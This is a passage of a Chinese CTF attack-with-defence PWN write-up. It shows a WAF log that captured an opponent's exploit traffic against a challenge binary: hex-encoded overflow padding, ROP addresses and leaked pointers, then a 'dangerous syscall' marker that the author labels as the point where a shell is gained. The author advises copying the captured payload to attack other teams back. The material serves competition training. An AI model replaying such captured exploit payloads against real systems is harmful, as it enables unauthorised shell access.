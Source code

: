 ```plain
io.interactive()
```

此时 pwn1 文件夹下就会出现一条日志信息

[![](assets/1709106080-14b9b1afaf886a22c0782617c24c0708.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226231407-afd826be-d4b9-1.png)

打开就能找对应的 payload，直接抄进行反打

```plain
// Date: 2024-02-26 22:59:57
// Mode: CATCH
// CTF AWD PWN WAF
// Deved By I0gan

<-------------------- write ----------------->
try this
This challenge no backdoor!
w_0 = "\x74\x72\x79\x20\x74\x68\x69\x73\x0a\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
aaaaaaaaaaaaaaaa\00\00\00\00\00\00\00\00*@\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00@@\00\00\00\00\000\00\00\00\00\00\00\00@@\00\00\00\00\00@\00\00\00\00\00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\FD@\00\00\00\00\00

r_0 = "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x00\x00\x00\x00\x00\x00\x00\x00\x2a\x13\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x30\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x10\x13\x40\x00\x00\x00\x00\x00\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xfd\x11\x40\x00\x00\x00\x00\x00\x0a"

<-------------------- write ----------------->
\80\C2`\00\00\00i`\00\00К`\00\00p`\00\00p@\00\00\00\00\00\00\00\00\00\00\00\00\00This challenge no backdoor!
w_1 = "\x80\xc2\x16\x0e\x60\x7f\x00\x00\x00\x69\x1e\x0e\x60\x7f\x00\x00\xd0\x9a\x0e\x0e\x60\x7f\x00\x00\x70\x19\x0e\x0e\x60\x7f\x00\x00\x70\x10\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
\00aaaaaaaaaaaaaaaaaaaaaaa@\00\00\00\00\003@\00\00\00\00\00\BD%!`\00\00\90`\00\00

<-------------- dangerous syscall------------>#这里就是获得 shell 了
<-------------- dangerous syscall------------>
```